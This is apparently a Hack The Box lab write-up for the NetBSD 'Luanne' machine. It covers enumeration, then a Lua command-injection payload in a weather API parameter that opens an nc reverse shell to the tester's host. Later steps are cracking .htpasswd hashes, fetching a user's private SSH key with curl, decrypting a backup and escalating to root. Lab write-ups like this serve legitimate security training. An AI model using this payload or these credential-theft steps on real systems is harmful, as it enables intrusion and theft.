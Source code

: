 ```yaml
---
title: (HTB) - Luanne
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2022-09-22 11:33:00 +0200
categories: [HackTheBox, Other]
tags: [NetBSD,Bozohttpd,Lua,Default Credentials,Code Injection,NGINX,Password Cracking,Password Reuse,Weak Credentials]
math: true
mermaid: true
image:
  src: /assets/images/1df44abad6a5755b7f9edd7675bbca3622df01287e2eeec05216dca208d4e0bc.png
  width: 694
  height: 515
  alt: image alternative text
---
```

**Luanne is a easy NetBSD box, which starts command injection. Privilege escalation is done by enumerating backups and decrypting those** 

# ENUMERATION
## NMAP
```
Nmap scan report for 10.10.10.218
Host is up (0.038s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.0 (NetBSD 20190418-hpn13v14-lpk; protocol 2.0)
| ssh-hostkey: 
|   3072 20:97:7f:6c:4a:6e:5d:20:cf:fd:a3:aa:a9:0d:37:db (RSA)
|   521 35:c3:29:e1:87:70:6d:73:74:b2:a9:a2:04:a9:66:69 (ECDSA)
|_  256 b3:bd:31:6d:cc:22:6b:18:ed:27:66:b4:a7:2a:e4:a5 (ED25519)
80/tcp   open  http    nginx 1.19.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/weather
|_http-server-header: nginx/1.19.0
|_http-title: 401 Unauthorized
9001/tcp open  http    Medusa httpd 1.12 (Supervisor process manager)
| http-methods: 
|_  Supported Methods: HEAD POST OPTIONS
|_http-server-header: Medusa/1.12
Service Info: OS: NetBSD; CPE: cpe:/o:netbsd:netbsd
```

The `robots.txt` is present and has `/weather` entry in it!

## GoBuster
```
luka@kali:~$ gobuster dir -u http://luanne.htb/weather -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -k 
-x php,bak,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://luanne.htb/weather
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,bak,txt
[+] Timeout:        10s
===============================================================
2021/01/27 16:19:25 Starting gobuster
===============================================================
/forecast (Status: 200)
```
## WebServer
	
![picture 2](/assets/images/a2912c4e2f718198aecd86192673a84e98af4ff9cfb0e7bafa520d672f6a0b88.png)  

There is aparently some weather forecast API-like application running.


![picture 3](/assets/images/49fa11fb8b4b16453e77eea087a50cbc530b3b763740514755b182db4cc0b087.png)  	

Lets check city parameter with list value:
![picture 5](/assets/images/76d6badbd58425c927d1e17f2f4a63a4a231c050d995e5836bb7828b1495c957.png)  

![picture 4](/assets/images/e5c23ff07fa1be1d7fd31e237a03fc8df759bfa3d9bd1b3840f7fb18e9ec4cd8.png)  

Injection seems to work, and so should command chaining

By switching to POST it is possible to see the error:

```
luka@kali:~/htb/luanne$ curl -d "city='" http://luanne.htb/weather/forecast
<br>Lua error: /usr/local/webapi/weather.lua:49: attempt to call a nil value
```
# Exploitation
## Command Injection
Following payload was used (BSD):
```
http://luanne.htb/weather/forecast?city=London%27); require('os');os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.22 4446 >/tmp/f');+--+
```

# Privilege Escalation #1 to r.michaels
## Enumeration
Following was found by linpeas.sh
![picture 7](/assets/images/24092cad964bbf45a14ffa3c377a54652d314205dbd255573a6dada3be14be10.png)

Credentials were found in `/var/www/.htpasswd `:
```
$ cat /var/www/.htpasswd 
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
```

## Hashcat
![picture 6](/assets/images/c3f74cb21110488ac518080e0ed90c38fea65fe2113382c1a94970a82185d733.png)  

Hash has been cracked using hashcat.

Logging in using the credentials

![picture 8](/assets/images/98a4502dfadf181d9871a6013e9672b401bedd9717aed8fadae8270e76810274.png)  

Supervisor App is actually not vulnerable!

# Privilege Escalation #2 to root
## Getting Shell as r.michaels
Weirdly process is running on port 3001.
We can login using basic credentials and fetch the home directory from `r.michaels`:
```
$ curl --user webapi_user:iamthebest http://127.0.0.1:3001/~r.michaels/id_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAvXxJBbm4VKcT2HABKV2Kzh9GcatzEJRyvv4AAalt349ncfDkMfFB
...SNIP
189zIG0dHfVDVQBCXd2Rng15eN5WnsW2LL8iHL25T5K2yi+hsZHU6jJ0CNuB1X6ITuHhQg
QLAuGW2EaxejWHYC5gTh7jwK6wOwQArJhU48h6DFl+5PUO8KQCDBC9WaGm3EVXbPwXlzp9
9OGmTT9AggBQJhLiXlkoSMReS36EYkxEncYdWM7zmC2kkxPTSVWz94I87YvApj0vepuB7b
45bBkP5xOhrjMAAAAVci5taWNoYWVsc0BsdWFubmUuaHRiAQIDBAUG
-----END OPENSSH PRIVATE KEY-----
```
Let's login using `r.michaels`'s private key:
```
luka@kali:~/htb/luanne$ ssh -i ./id_rsa r.michaels@10.10.10.218
The authenticity of host '10.10.10.218 (10.10.10.218)' can't be established.
ECDSA key fingerprint is SHA256:KB1gw0t+80YeM3PEDp7AjlTqJUN+gdyWKXoCrXn7AZo.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.218' (ECDSA) to the list of known hosts.
Last login: Fri Sep 18 07:06:51 2020
NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020

Welcome to NetBSD!

luanne$ id
uid=1000(r.michaels) gid=100(users) groups=100(users)
```
## Decrypting backups
`devel_backup-2020-09-16.tar.gz.enc ` was found in the `.gnupg` home directory from `r.mihaels`. It can be decrypted using `netpgp`
```
luanne$ netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output /tmp/devel_backup-2020-09-16.tar.gz         	
signature  2048/RSA (Encrypt or Sign) 3684eb1e5ded454a 2020-09-14 
Key fingerprint: 027a 3243 0691 2e46 0c29 9f46 3684 eb1e 5ded 454a 
uid              RSA 2048-bit key <r.michaels@localhost>
```
And there we can find another `.htapasswd`.

![picture 9](/assets/images/61e168bd6a7899e3c90ceafd3cddc0b94efb0d0bf23948a1ecbfb91463ca9af8.png)  

Which means another password that may be cracked:

![picture 10](/assets/images/02f540aa5ec22397fde85851feb5c1d332912e45995c68771f42e6c063098425.png)  

Password was cracked and works for root user (need use doas since su doesn't work)
```
luanne$ doas -u root /bin/sh
Password:
sh: Cannot determine current working directory
# id
uid=0(root) gid=0(wheel) groups=0(wheel),2(kmem),3(sys),4(tty),5(operator),20(staff),31(guest),34(nvmm)
# cd /root
# cat root.txt
7a9b5c2************3675f66
```
